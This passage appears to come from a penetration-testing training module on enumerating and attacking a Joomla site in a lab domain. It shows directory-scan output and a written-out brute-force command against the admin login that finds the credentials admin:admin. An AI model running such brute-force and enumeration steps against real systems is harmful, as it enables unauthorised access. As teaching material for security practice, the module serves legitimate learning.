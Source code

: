 ```shell
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_actionlogs/actionlogs.xml
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_admin/admin.xml
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_ajax/ajax.xml
	 Explorable Directory 	 > http://dev.inlanefreight.local/components/com_actionlogs/
	 Explorable Directory 	 > http://dev.inlanefreight.local/administrator/components/com_actionlogs/
	 Explorable Directory 	 > http://dev.inlanefreight.local/components/com_admin/
	 Explorable Directory 	 > http://dev.inlanefreight.local/administrator/components/com_admin/
Component found: com_banners	 > http://dev.inlanefreight.local/index.php?option=com_banners
	 But possibly it is not active or protected
	 Explorable Directory 	 > http://dev.inlanefreight.local/components/com_ajax/
	 Explorable Directory 	 > http://dev.inlanefreight.local/administrator/components/com_ajax/
	 LICENSE file found 	 > http://dev.inlanefreight.local/administrator/components/com_banners/banners.xml

<SNIP>

```

While not as valuable as droopescan, this tool can help us find accessible directories and files and may help with fingerprinting installed extensions. At this point, we know that we are dealing with Joomla `3.9.4`. The administrator login portal is located at `http://dev.inlanefreight.local/administrator/index.php`. Attempts at user enumeration return a generic error message.

```shell
Warning
Username and password do not match or you do not have an account yet.

```

The default administrator account on Joomla installs is `admin`, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```shell
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin

```

And we get a hit with the credentials `admin:admin`. Someone has not been following best practices!


# Attacking Joomla

* * *

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.
